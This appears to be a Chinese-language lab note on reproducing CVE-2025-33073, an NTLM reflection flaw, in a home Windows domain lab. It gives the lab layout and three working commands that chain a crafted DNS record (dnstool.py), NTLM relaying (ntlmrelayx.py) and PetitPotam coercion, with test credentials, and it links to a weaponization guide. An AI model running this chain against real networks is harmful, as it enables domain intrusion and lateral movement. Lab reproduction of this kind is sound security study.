




# 前言
真应了那句话，环境搭建2小时，漏洞复现5分钟，前前后后折腾了好久，最终方案：我的宿主机是Mac 15.3.2，PD下虚拟化的Win2019、Win10，VMware Fusion下虚拟化的Kali，均使用桥接。

期间试过用PD下的Win10作为攻击机，但是涉及445端口占用问题，也试过PD下安装kali，可是怎么也装不上，干脆不折腾了

# 系统下载
https://msdn.itellyou.cn/  
https://next.itellyou.cn/  

# 域环境搭建
【搭建一个简单的Windows域环境】https://blog.csdn.net/qq_28205153/article/details/113827476

# 漏洞复现
【谢公子的复现分析】https://mp.weixin.qq.com/s/x1ZtxBAWx-eNS4WCaUagfg  
【狼组的复现分析】https://mp.weixin.qq.com/s/Ew9OULVjM-zLAxpMsaUyvQ  
【漏洞作者的分析】https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  

域：test.local  
域控（Win2019）：172.20.10.4  
受害机（Win10）：172.20.10.5  
攻击机（Kali）：172.20.10.2  

下载下述三个工具  
https://github.com/dirkjanm/krbrelayx  
https://github.com/fortra/impacket/releases/download/impacket_0_12_0/impacket-0.12.0.tar.gz  
（注意：impacket不要用master分支的版本，截止到2025.06.29，master分支的版本是0.13.0.dev0，里面的代码有更新，会导致脚本执行失败）  
https://github.com/topotam/PetitPotam  

```
python3 dnstool.py -u 'test.local\john' -p 'nongxinL878' -r ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d 172.20.10.2 --action add 172.20.10.4
```



```
python3 ntlmrelayx.py -t 172.20.10.5 -smb2support -ts
```



```
python3 PetitPotam.py -d test.local -u john -p nongxinL878 ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 172.20.10.5
```

如图所示，表示漏洞可能被修补了

下图是漏洞没被修补的输出，需要注意漏洞利用时防火墙需要关闭，否则在执行PetitPotam时会连接不上目标的445端口  


# 漏洞分析
待补充

# 漏洞挖掘
待补充


# 漏洞武器化
【内网横行：大杀器之实战场景下的 CVE-2025-33073 全流程利用指南 | 附利用工具集】

https://mp.weixin.qq.com/s/0RXeTt5-CIZw4PPxpGJ6dQ?scene=1

https://github.com/jellever/StreamDivert